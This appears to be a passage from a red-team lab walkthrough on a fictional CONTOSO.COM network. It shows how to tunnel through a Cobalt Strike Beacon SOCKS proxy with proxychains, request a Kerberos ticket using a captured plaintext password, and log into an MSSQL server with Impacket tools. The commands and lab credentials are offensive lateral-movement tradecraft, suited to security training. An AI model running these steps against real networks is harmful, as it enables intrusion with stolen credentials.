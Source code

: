 - On the Attacker Desktop, run Terminal as a local admin.
    
-  Add the following static DNS entry:
    
    TerminalTypeCopy
    
    `Add-Content -Path C:\Windows\System32\drivers\etc\hosts -Value '10.10.120.20 lon-db-1'`
    
-  Open Cobalt Strike and connect to the team server.
    
-  Use Beacon to start a SOCKS 5 proxy on port 1080.
    
    1.`socks 1080 socks5`

#### proxychains
- From Terminal, launch Ubuntu.
    
-  Run sudo nano /etc/proxychains.conf.
    
    > The password is Passw0rd!.
    
-  Comment out _proxy_dns_ on _line 38_.
    
-  Replace the proxy entry on line 64 with socks5 10.0.0.5 1080.
    
-  Save the file (Ctrl+O, Ctrl+X)
    
-  Use rsteel's plaintext password to request a TGT.
    
    shellTypeCopy
    
    `proxychains getTGT.py 'CONTOSO.COM/rsteel:Passw0rd!' -dc-ip 10.10.120.1`
    
-  Set the KRB5CCNAME environment variable.
    
    1. export KRB5CCNAME=rsteel.ccache
-  Use the TGT to authenticate to the _lon-db-1_ SQL instance.
    
    shellTypeCopy
    
    `proxychains mssqlclient.py contoso.com/rsteel@lon-db-1 -windows-auth -no-pass -k -dc-ip 10.10.120.1`
    
-  Execute some SQL commands.
    
    1.  select @@servername;
    2.  exit